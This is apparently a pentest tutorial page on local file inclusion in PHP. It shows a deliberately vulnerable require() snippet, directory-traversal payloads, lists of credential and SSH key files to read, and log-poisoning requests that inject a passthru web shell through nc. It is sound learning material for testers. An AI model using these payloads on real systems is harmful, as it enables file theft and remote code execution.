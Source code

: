# Local file inclusion

Local file inclusion means unauthorized access to filesystem.

With this we can get a hold of many sensitive files



In most web-services that use a database we can get a hold of the database username and password:


in wordpress the file is **wp-config.php**
And once you have gotten access to that you can do other things. Check out the chapter on mysql.


This is the definitive guide to Local File inclusion
https://highon.coffee/blog/lfi-cheat-sheet/

And this
http://securityidiots.com/Web-Pentest/LFI

And this:

https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/


The vulnerability stems from unsanitized user-input

Here is an example of php-code vulnerable to LFI. As you can see we just pass in the url-parameter into the require-function without any sanitization. So the user can just add the path to any file.
```
# index.php
    <?php
      $file = $_GET['page'];
      require($file);
     ?>
```


## Linux

### Tricks

Check if a folder exists, go into it and the go out.

```
index.php?page=../../../../../../var/www/dossierexistant/../../../../../etc/passwd%00"
```

**Download config-files in a nice style-format**
If you read files straight in the browser the styling can becomes unbearable. Really difficult to read. A way around it is to download the files from the terminal. But that won't work if there is a login that is blocking it. So this is a great workaround:

```
# First we save the cookie
curl -s http://example.com/login.php -c cookiefile -d "user=admin&pass=admin"
curl -s http://example.com/gallery.php?page=/etc/passwd -b cookiefile
```


### Sensitive file

This is the default layout of important apache files.
https://wiki.apache.org/httpd/DistrosDefaultLayout

#### Web server files
```
# Usually found in the root of the website
.htaccess
config.php
```

#### SSH
```
authorized_keys
id_rsa
id_rsa.keystore
id_rsa.pub
known_hosts
```
#### Logs
```
/etc/httpd/logs/acces_log 
/etc/httpd/logs/error_log 
/var/www/logs/access_log 
/var/www/logs/access.log 
/usr/local/apache/logs/access_ log 
/usr/local/apache/logs/access. log 
/var/log/apache/access_log 
/var/log/apache2/access_log 
/var/log/apache/access.log 
/var/log/apache2/access.log
/var/log/access_log
```

#### General files

First you need to check the passwd file to find the users.
```
cat /etc/passwd
cat /etc/group
cat /etc/shadow
/var/mail/
```

#### User specific files

Found in the home-directory

```
.bash_history
.mysql_history
.my.cnf
```

#### Proc files

"Under Linux, /proc includes a directory for each running process, including kernel processes, in directories named /proc/PID, where PID is the process number. Each directory contains information about one process, including: /proc/PID/cmdline, the command that originally started the process."

https://en.wikipedia.org/wiki/Procfs

https://blog.netspi.com/directory-traversal-file-inclusion-proc-file-system/
```
/proc/sched_debug # Can be used to see what processes the machine is running
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/net/fib_trie
/proc/version
/proc/self/environ
```

## Bruteforcing SSH known_hosts

https://blog.rootshell.be/2010/11/03/bruteforcing-ssh-known_hosts-files/


## LFI to shell

Under the right circumstances you might be able to get a shell from a LFI


### Log files
There are some requirements. We need to be able to read the apache2 log files, either the success.log or the error.log

So once you have found a LFI vuln you have to inject php-code into the log file and then execute it.

1. Insert php-code into the log file.
This can be done with nc or telnet.

```
nc 192.168.1.102 80
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close
```

You can also add it to the error-log by making a request to a page that doesn't exists

```
nc 192.168.1.102 80
GET /AAAAAA<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close
```


Or in the referer parameter.
```
GET / HTTP/1.1
Referer: <? passthru($_GET[cmd]) ?>
Host: 192.168.1.159
Connection: close
```

2. Execute it
In the browser:
```
http://192.168.1.102/index.php?/var/log/apache2/access.log&cmd=id
```

### /proc/self/environ

We can also inject code into /proc/self/environ through the user-agent

https://www.exploit-db.com/papers/12992/



https://www.youtube.com/watch?v=ttTVNcPnsJY